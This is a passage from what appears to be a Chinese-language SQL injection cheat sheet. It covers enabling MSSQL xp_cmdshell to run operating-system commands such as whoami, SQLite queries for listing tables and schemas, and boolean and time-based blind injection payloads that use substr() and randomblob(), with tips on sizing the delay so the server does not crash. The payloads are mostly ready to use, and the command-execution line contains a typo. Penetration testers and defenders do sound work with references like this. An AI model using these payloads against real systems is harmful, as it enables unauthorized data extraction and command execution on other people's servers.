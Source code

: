 开启xp_cmdshell:

```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure'xp_cmdshell', 1;
RECONFIGURE; 
```

关闭xp_cmdshell:

```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure'xp_cmdshell', 0;
RECONFIGURE;
```

执行命令格式： 
`xp_cmdsehll('whoami');`

# 4 SQLite

## 4.1 常用信息及语句

数据库版本： 
`select sqlite_version()`

获取所有表名： 
`SELECT name FROM sqlite_master WHERE type='table'`

所有表结构(包含字段名，表名)： 
`SELECT sql FROM sqlite_master WHERE type='table'`

注释符： 
`--`

盲注常用函数：`substr()`（没有mid、left等函数），判断长度函数`length()`

## 4.2 BOOL盲注

bool条件构造和MySQL一样，但是亦或运算的Payload不可用，注释符使用`--`。

逻辑判断目前我就翻到一个`substr()`，应用实例： 
`cond='FALSE' or (substr('abc',1,1)='a')`

## 4.3 延时盲注

sqlite没有类似`sleep()`的函数，但有个函数`randomblob(N)`，生成N个任意字符，可以造成延时。

SQLite没有`if`，可以使用`case when ... then ...`

格式`cond='true' AND 1=(case when (bool) then randomblob(100000000) else 0 end)` 
100000000个字符就有明显延时了。

注意cond为真，并且不要有太多条数据，因为有一条数据就会执行一次`randomblob(100000000)`，如果数据很多的话，服务器直接挂了。可以首先判断一下数据量，再确定N的值，比如我这里有100多条数据，就可以 `id='' or 1 AND 1=randomblob(1000000)`这样，把N的值缩小100倍。灵活运用。
